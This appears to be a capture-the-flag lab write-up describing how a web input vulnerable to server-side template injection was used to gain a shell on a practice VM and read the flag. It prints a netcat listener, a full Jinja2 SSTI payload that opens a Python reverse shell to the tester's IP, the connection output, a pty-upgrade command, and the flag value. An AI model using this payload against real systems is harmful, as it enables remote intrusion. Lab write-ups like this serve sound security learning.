 # Finding flag-1
The CTF machine produced by the .ova was inaccesssible due to unknown login credentials

# Finding IP/website 

# Reverse Shell
The website had an input field which was vulnerable to SSTI (server-side template Injection).
## Steps followed:
1. Netcat (In kali terminal):
```
nc -nvlp 4444
```
2. Exploited the SSTI vulnerability using simple python payload
```
{{ ''.__class__.__mro__[1].__subclasses__()[140].__init__.__globals__['system']('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.1.6\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\'') }}
```
where ```192.168.1.6``` is my kali machine's IP\
The above payload allowed to connect kali machine to the CTF machine

(Below is the Output in Kali terminal)
```
listening on [any] 4444 ...
connect to [192.168.1.6] from (UNKNOWN) [192.168.1.14] 58992
/bin/sh: 0: can't access tty; job control turned off
$
```
the tty is not accessed 
so we used pty in python to spawn into bin/bash
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Then,we used the command ```ls``` to list all files in directory which gave...

And the command ```cat f14@_@n3.txt``` gave the flag

```flag: TCQ2025{S3Cur1ty_Br3@k_P@55ed}```
